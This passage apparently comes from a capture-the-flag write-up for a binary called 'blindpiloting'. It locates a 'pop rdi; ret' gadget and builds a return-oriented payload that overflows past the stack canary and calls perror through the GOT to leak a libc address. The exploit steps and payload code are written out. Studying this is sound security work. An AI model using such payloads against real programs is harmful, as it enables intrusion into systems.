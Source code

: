 ```
# objdump -M intel -d blindpiloting | grep -A1 b12:
 b12:	41 5f                	pop    r15
 b14:	c3                   	ret
```

At offset `0xb13` is `0x5f` followed by `0xc3`.

`0x5f` is `pop rdi`, and `0xc3` is `ret`.  An easy way to check:

```
# cat >rop.s <<'EOF'
> BITS 64
> pop rdi
> ret
> EOF
# nasm rop.s
# hexdump -C rop
00000000  5f c3                                             |_.|
00000002
```

Now that we have all the necessary information it is time to test our leak, in the left pane type `c` to continue, and in the right pane type:

```
p.sendline()
```

left pane should look something like this:

```
gef➤  c
Continuing.
[Attaching after process 6079 fork to child process 7377]
[New inferior 2 (process 7377)]
[Detaching after fork from parent process 6079]
[Inferior 1 (process 6079) detached]
```

In the right pane, create and send payload:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi)
payload += p64(procbase + perror_got)
payload += p64(procbase + perror_plt)
```

This payload will write out the buffer, then overflow the canary and the saved base pointer.  The return address on the stack will be replaced with the address to our `pop rdi` gadget.  This gadget will _pop_ off the next value on the stack (the address to `perror` in the GOT that is then a pointer to the libc `perror` function) into `rdi`.  The second instruction in the gadget will `ret`.  That return will then pop off the next value on the stack into `rip` and execute the `perror` function that will then leak a libc address.

```
p.sendline(payload)
```
